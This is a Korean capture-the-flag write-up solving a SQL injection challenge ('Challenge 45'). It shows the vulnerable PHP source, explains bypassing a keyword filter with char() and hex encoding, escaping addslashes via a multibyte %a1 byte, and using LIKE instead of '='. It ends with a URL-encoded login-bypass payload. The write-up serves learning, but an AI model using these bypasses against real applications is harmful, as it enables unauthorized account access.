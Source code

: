 # sql injection

단순 id, pw 로그인 폼이 있다. 
소스코드는 아래와 같다. 

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 45</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get>
id : <input name=id value=guest><br>
pw : <input name=pw value=guest><br>
<input type=submit>
</form>
<hr><a href=./?view_source=1>view-source</a><hr>
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']);
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['id'])) exit();
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['pw'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      echo "hi {$result['id']}";
      if($result['id'] == "admin") solve(45);
    }
    else echo("Wrong");
  }
?>
</body>
</html>
```

id부분에 `admin' or 1#` 을 삽입하면 된다. 
하지만, `admin`이라는 문자가 `preg_match` 함수로 필터링이 되고, 
`addslashes` 함수가 `'` 따옴표 앞에 `\` 요 이스케이프를 자동으로 붙이면서 쓸 수가 없다. 
그리고 `=`도 못쓴다.

이걸 우회해야 한다.
일단 `admin` 문자 우회의 방법은 다음과 같다. 

```sql
-- char()함수
char(97,100,109,105,110)

-- 16진수로 인코딩(앞에 0x)
0x61646d696e

-- 2진수로 인코딩(앞에 0b)
0b0110000101100100011011010110100101101110
```

다음으로 `'` 를 삽입하기 위한 방법이다. 
`addslashes` 함수는 따옴표에 `\` 를 추가한다. 
따옴표앞에 멀티바이트 인코딩으로 인식될 수 있는 문자를 넣으면, 

```
문자\'
```

추후 `mb_convert_encoding` 함수에서

```
문자\ => 이걸 하나의 문자로 인식(문자가 멀티바이트로 인식되서 \까지 읽어버림)
```

그래서 `'` 가 이스케이프 없이 쓰일 수 있다. 

그럼 이 멀티바이트란 뭔가?

먼저 문자인코딩이란, 문자를 컴퓨터의 신호로 연결시킨것. 
그걸 위해서 문자마다 특정 숫자를 대응시켜서 '이 문자가 무슨 문자인지를' 컴퓨터가 알도록 하는 방법이다. 

아스키는 1바이트, 128개의 문자를 연결시켜 인코딩을 한다.
utf-8 인코딩은 아스키와 달리 크기가 유동적이다. 
1바이트에서 4바이트까지 사용한다.  

2바이트로 쓰는게 멀티바이트이다. 16진수 범위는  0x80 ~ 0x7FF (128~2047까지)
[url에서 utf-8](https://namu.wiki/w/UTF-8#s-5)
[코드표](https://www.utf8-chartable.de/)

 `%a1~%fe` 까지가 2 byte로 인식된다. 

`=` 을 못 넣으니까 like를 이용한다. [설명](https://coding-factory.tistory.com/114)
그리고 인풋에 넣으면 띄어쓰기가 +로 변해서 안된다. 
URL에 직접삽입을 한다. 
그래서 먼저 `%a1'`이걸로 기존의 id쿼리를 닫는다. => `id='%a1'`
그리고 이어서 `or id=char(97,100,109,105,110)` 를 넣는다. 

```
-- 넣을값
id=%a1' or id like 0x61646d696e#

--진짜 넣을때는 url 인코딩해서 넣는다.
id=%a1%27%20or%20id%20like%200x61646d696e%23
```

그럼 해결이 된다. 

> admin처럼 특정 문자열의 필터링을 피하는 것은 쉽지만, 
> 따옴표, = 같은 문자를 우회하는 것은 까다로웠다. 
>
> 이번 문제를 풀면서 utf-8 인코딩의 방식에 대해서도 더 알게 되었고, 
> like 같은 SQL 구문에 대해서도 새로 배웠다. 
>
> 아직 url 인코딩, utf-8 인코딩의 방식에 대해서 구체적으로는 이해가 잘 안된다. 
> 앞으로 더 많은 문제를 풀면서 배우고 정리해나갔으면 좋겠다.